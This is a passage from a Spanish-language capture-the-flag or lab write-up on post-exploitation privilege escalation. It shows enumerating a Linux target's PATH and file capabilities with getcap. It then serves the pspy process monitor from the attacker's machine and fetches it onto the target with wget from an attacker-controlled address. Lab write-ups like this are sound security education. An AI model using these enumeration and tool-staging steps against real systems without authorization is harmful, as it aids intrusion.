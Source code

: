 Podriamos aprovecharnos del `pkexec` pero no es la idea si vemos nuestro path vemos que es pequeño asi que podemos exportar el de nosotros para que sea mas grande

```shell
bash-4.4$ echo $PATH
/usr/local/bin:/usr/bin
bash-4.4$ 
```

```shell
export PATH=tuPATH
```

Funciona

```shell
bash-4.4$ which getcap
/usr/sbin/getcap
bash-4.4$ 
```

Vamos a buscar capabilities

```shell
bash-4.4$ which getcap
/usr/sbin/getcap
bash-4.4$ getcap -r / 2>/dev/null
/usr/bin/newgidmap = cap_setgid+ep
/usr/bin/newuidmap = cap_setuid+ep
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/mtr-packet = cap_net_raw+ep
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
bash-4.4$ 
```

## Escalada de privilegios

Despues de enumerar el sistema y ver que no hay gran cosa vamos a buscar por tareas cron vamos a usar `pspy`

- [pspy64](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1)

Vamos a transferirlo ala maquina

```shell
❯ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.100.28 - - [15/Feb/2023 14:52:31] "GET /pspy64 HTTP/1.1" 200 -
```

```shell
bash-4.4$ wget http://192.168.100.15:80/pspy64
--2023-02-15 20:52:25--  http://192.168.100.15/pspy64
Connecting to 192.168.100.15:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: 'pspy64'

pspy64                          100%[=======================================================>]   2.96M  --.-KB/s    in 0.03s   

2023-02-15 20:52:25 (102 MB/s) - 'pspy64' saved [3104768/3104768]

bash-4.4$ ls
pspy64
bash-4.4$ 
```
